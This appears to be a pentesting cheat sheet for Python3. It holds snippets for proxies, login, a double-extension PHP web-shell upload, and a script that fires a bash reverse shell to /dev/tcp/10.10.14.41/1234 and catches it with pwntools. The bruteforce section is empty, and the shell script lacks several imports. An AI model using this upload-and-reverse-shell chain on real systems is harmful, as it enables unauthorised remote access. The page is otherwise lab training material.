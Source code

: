 # Pentesting with Python3

## Style Guide for Python Code

If you want to write good code then read this:

{% embed url="https://www.python.org/dev/peps/pep-0008/" %}

## Python3 Library

The best way to learn commands or code is to read the official documentation:

{% embed url="https://docs.python.org/3/library/index.html" %}

## Modules/Library

Here are the most common modules or libraries that are most often used in scripts or exploits.

### pwntools

{% embed url="https://docs.pwntools.com/en/stable/" %}

### requests

{% embed url="https://docs.python-requests.org/en/master/" %}

### os

{% embed url="https://docs.python.org/3/library/os.html" %}

### sys

{% embed url="https://docs.python.org/3/library/sys.html" %}

### time

{% embed url="https://docs.python.org/3/library/time.html" %}

### urllib

{% embed url="https://docs.python.org/3/library/urllib.html" %}

### struct

{% embed url="https://docs.python.org/3/library/struct.html" %}

## HTTP Proxies

We may need proxies for debugging or troubleshooting, the following code is an example of this:

```python
#!/bin/python3

import requests

proxies = {
    "http": "http://127.0.0.1:8080",
}

s = requests.Session()
s.proxies.update(proxies)
```

## HTTP Login

### HTML Form

An example of a login form may look like the following code:

```python
#!/bin/python3

import requests

# Session
s = requests.Session()

login_url = 'http://10.10.10.185/login.php'
login_parameters = {"username": "username_here", "password": "password_here"}
s.post(login_url, data=login_parameters, allow_redirects=True)
```

## HTTP Login Bruteforce

### Password Bruteforce

A very simple password brute force script on HTTP non SSL/TLS can be the following:

## HTTP File Upload

### Multipart-Encoded File

Some servers are configured to upload files using one or more Content-Disposition headers:

```python
#!/bin/python3

import requests
  
upload_url = "http://10.10.10.10/upload.php"

"""
Content-Disposition: form-data; name="image"; filename="rce.php.jpg"
Content-Type: image/jpeg
Content-Disposition: form-data; name="submit"
Upload Image
"""
upload_image = {
    "image": ("rce.php.jpg", open("rce.jpg", "rb"), "image/jpeg"),
    "submit": (None, "Upload Image"),
}

requests.post(
    upload_url,
    files=upload_image,
)

print("[+] Uploaded the file")
```

## Interactive Shell with pwn

This is a way to receive an interactive shell via a socket, however, you may have problems establishing a TTY/PTY shell:

```python
#!/bin/python3

import requests
from pwn import log, context, listen

def foothold():
    # Reverse Shell
    rce_url = "http://10.10.10.185/images/uploads/rce.php.jpg"
    payload = "?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.41%2F1234%200%3E%261%27"
    requests.get(rce_url + payload)


if __name__ == "__main__":
    try:
        threading.Thread(target=foothold, args=()).start()
    except Exception as e:
        log.error(str(e))
    
    listen_port = 1234
    
    p1 = log.progress("Foothold")
    p1.status("Gaining access to the system.")
    
    shell = listen(listen_port, timeout=5).wait_for_connection()
    
    # Check if the socket has been established
    if shell.sock is None:
        log.failure("We couldn't connect to the system")
        sys.exit()
    else:
        log.success("We have access to the system as the user www-data")
        time.sleep(1)
    
    shell.interactive()
```


